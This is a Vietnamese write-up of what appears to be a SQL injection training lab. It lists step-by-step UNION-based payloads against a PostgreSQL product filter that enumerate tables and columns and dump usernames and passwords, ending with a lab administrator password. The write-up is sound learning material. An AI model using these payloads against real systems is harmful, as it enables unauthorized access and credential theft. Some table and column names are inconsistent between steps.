# Triển khai Lap
 ###### Khi kiểm tra đã tìm thấy lỗ hổng chèn SQL trong bộ lọc danh mục sản phẩm qua URL `/filter?category=' ORDER BY 3-- -`
 
###### Tiếp tục nhập URL `' UNION SELECT NULL,NULL-- -`


###### ===>có 2 cột trong bảng hiện tại và cả hai cột đều chấp nhận kiểu dữ liệu string.
###### Để trích xuất username  và password  của tất cả người dùng thực hiện như sau.
###### Tìm hiểu DBMS (Hệ thống quản lý cơ sở dữ liệu) và phiên bản của nó
###### `' UNION SELECT NULL,version()-- -`

###### ===>Thông tin DBMS: PostgreSQL phiên bản 12.12
###### Có thể liệt kê tất cả các tên bảng.
###### `' UNION SELECT NULL,table_name FROM information_schema.tables-- -`



###### Có quá nhiều tables. Loại trừ tất cả các bảng `pg`, đây là các bảng mặc định của PostgreSQL.
###### Không bao gồm các bảng `pg`
###### `' UNION SELECT NULL,table_name FROM information_schema.tables WHERE table_name NOT LIKE '%pg%'-- -`


###### Liệt kê tất cả tên cột của bảng `user_zmlpng`
###### `' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users_zmlpng'-- -`

###### có 2 cột: `username_hrympe` và `pass_gxucte`.Lấy ra dữ liệu của 2 bảng đó.
###### Trích xuất dữ liệu bảng `user_zmlpng`
###### `' UNION SELECT NULL,username_hrympe||':'||password_gxucte FROM users_zmlpng-- -`

###### Tìm thấy mật khẩu quản trị viên.
##### Username: administrator
##### Password: 5eg7nhvdr5aag5h4n4i4
###### Hãy đăng nhập với tư cách quản trị viên.



